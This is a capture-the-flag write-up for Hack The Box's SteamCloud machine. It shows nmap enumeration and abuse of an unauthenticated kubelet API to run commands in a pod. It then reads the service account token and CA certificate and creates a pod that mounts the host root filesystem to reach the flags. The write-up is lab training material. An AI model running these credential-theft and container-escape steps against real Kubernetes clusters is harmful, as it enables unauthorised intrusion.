


# HTB : SteamCloud


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/SteamCloud) |
| Difficulty | Easy |
| OS | Linux |
| Author | ByteFragment |
| Date | November 7th 2026 |


## Enumeration

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sV -T4 -p- 10.129.96.167 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

```
Nmap scan report for 10.129.101.16  
Host is up (0.087s latency).  
Not shown: 65528 closed tcp ports (reset)  
PORT      STATE SERVICE          VERSION  
22/tcp    open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
2379/tcp  open  ssl/etcd-client?  
2380/tcp  open  ssl/etcd-server?  
8443/tcp  open  ssl/http         Golang net/http server  
10249/tcp open  http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)  
10250/tcp open  ssl/http         Golang net/http server (Go-IPFS json-rpc or InfluxDB API)  
10256/tcp open  http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

From the scan we can see that the target machine is running an SSH server 22, as well as some port's I have not seen before. Looking online we see that port [2379](https://whatportis.com/ports/2379-etcd) is a client endpoint commonly used by `Kubernetes` while `2380` is a Kubernetes server endpoint. Port `8443` is commonly associated with the Kubernetes API and ports `10249`,`10250`, and `10256` are all associated with Kubernetes extensions.

### Web Recon

Let's try and visit the target IP at port 8443 in the Burp Suite Browser.

There we receive the following response:

```
\{  
  "kind": "Status",  
  "apiVersion": "v1",  
  "metadata": \{  
  
  \},  
  "status": "Failure",  
  "message": "forbidden: User \\"system:anonymous\\" cannot get path \\"/\\"",  
  "reason": "Forbidden",  
  "details": \{  
  
  \},  
  "code": 403  
\}
```

This error tells us that we are not authorized to access this resource,   thankfully port [10250](https://nhimg.org/glossary/kubelet-port-10250/) is used for authenticate access to `kubelet functions`.

This can be [accessed](https://kubenomicon.com/Discovery/Access_kubelet_API.html) by visiting `https://10.129.96.167:10250/pods`:



This returns a large amount of text containing metadata about the Kubernetes Pods. In order to interact with the Kubernetes cluster we will need to us `kubeletctl` :

```
┌──(kali㉿kali)-\[~/labs\_htb/SteamCloud\]  
└─$ kubeletctl --server 10.129.96.167 pods  
┌────────────────────────────────────────────────────────────────────────────────┐  
│                                Pods from Kubelet                               │  
├───┬────────────────────────────────────┬─────────────┬─────────────────────────┤  
│   │ POD                                │ NAMESPACE   │ CONTAINERS              │  
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤  
│ 1 │ nginx                              │ default     │ nginx                   │  
│   │                                    │             │                         │  
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤  
│ 2 │ etcd-steamcloud                    │ kube-system │ etcd                    │  
│   │                                    │             │                         │  
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤  
│ 3 │ kube-apiserver-steamcloud          │ kube-system │ kube-apiserver          │  
│   │                                    │             │                         │  
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤  
│ 4 │ kube-controller-manager-steamcloud │ kube-system │ kube-controller-manager │  
│   │                                    │             │                         │  
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤  
│ 5 │ kube-scheduler-steamcloud          │ kube-system │ kube-scheduler          │  
│   │                                    │             │                         │  
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤  
│ 6 │ kube-proxy-98wv9                   │ kube-system │ kube-proxy              │  
│   │                                    │             │                         │  
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤  
│ 7 │ storage-provisioner                │ kube-system │ storage-provisioner     │  
│   │                                    │             │                         │  
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤  
│ 8 │ coredns-78fcd69978-r7b6j           │ kube-system │ coredns                 │  
│   │                                    │             │                         │  
└───┴────────────────────────────────────┴─────────────┴─────────────────────────┘
```

## Foothold

Thankfully [kubenomicon](https://kubenomicon.com/Discovery/Access_kubelet_API.html) has a great section on attacking `kubelet` and indicates that we can achieve command execution using the `nginx` pod:

```
kubeletctl --server 10.129.96.167 exec "whoami" -p nginx -c nginx  
root
```

We now have the ability to execute arbitrary shell commands on ten target machine!

Kubenomicon also makes reference to `/var/run/secrets/kubernetes.io/serviceaccount/` in one of its examples so lets see what his this directory contains:

```
kubeletctl --server 10.129.96.167 exec "ls /var/run/secrets/kubernetes.io/serviceaccount/" -p nginx -c nginx  
  
ca.crt  namespace  token
```

It looks like we have access to all service account resources and the `the service account granted to pods in the kube-system namespace grants full access to all resources.` - [kubenomicon service account page](https://kubenomicon.com/Credential_access/Container_service_account.html).

So to access the kubernetes API running on port 8443 we need to authenticate as the this service account. We can do this by first extracting the token and ca.crt files from the system:

```
┌──(kali㉿kali)-\[~/labs\_htb/SteamCloud\]  
└─$ kubeletctl --server 10.129.96.167 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx \> ca.crt   
  
┌──(kali㉿kali)-\[~/labs\_htb/SteamCloud\]  
└─$ kubeletctl --server 10.129.96.167 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx \> token 
```

Then creating an environment variable that contains the token:

```
export token=eyJhbGciOiJSUzI1NiIsImtpZCI6IlRITlU5RFdaSkxWcVBRaXpNV0pSYXR2dTV1XzVjMVdTSGNvVVZPNURUMzQifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9j.....
```

We can now list the rights associated with the service account by running:

```
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 auth can-i --list  
  
  
Resources                                       Non-Resource URLs                     Resource Names   Verbs  
selfsubjectaccessreviews.authorization.k8s.io   \[\]                                    \[\]               \[create\]  
selfsubjectrulesreviews.authorization.k8s.io    \[\]                                    \[\]               \[create\]  
pods                                              
  
...
```

Great! This means that we can create a pod but first we need to create a configuration file named `f.yaml`:

```
apiVersion: v1  
kind: Pod  
metadata:  
  name: nginxt  
  namespace: default  
spec:  
  containers:  
  - name: nginxt  
    image: nginx:1.14.2  
    volumeMounts:  
    - mountPath: /root  
      name: mount-root-into-mnt  
  volumes:  
  - name: mount-root-into-mnt  
    hostPath:  
      path: /  
  automountServiceAccountToken: true  
  hostNetwork: true
```

In this configuration file we are specifying that the pod is to be mounted to the host file system.

Then we can create the pod using the command:

```
┌──(kali㉿kali)-\[~/labs\_htb/SteamCloud\]  
└─$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 apply -f f.yaml  
pod/nginxt created
```

And verify existence:

```
┌──(kali㉿kali)-\[~/labs\_htb/SteamCloud\]  
└─$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 get pods                          
NAME     READY   STATUS    RESTARTS   AGE  
nginx    1/1     Running   0          164m  
nginxt   1/1     Running   0          5s
```

We can then use kubeletctl to retrieve the user and root flags:

```
┌──(kali㉿kali)-\[~/labs\_htb/SteamCloud\]  
└─$ kubeletctl --server 10.129.96.167 exec "ls /root/root" -p nginxt -c nginxt  
root.txt  
                                                                                                                                                   
┌──(kali㉿kali)-\[~/labs\_htb/SteamCloud\]  
└─$ kubeletctl --server 10.129.96.167 exec "ls /root/home/user" -p nginxt -c nginxt  
user.txt
```

Thus solving the challenge:



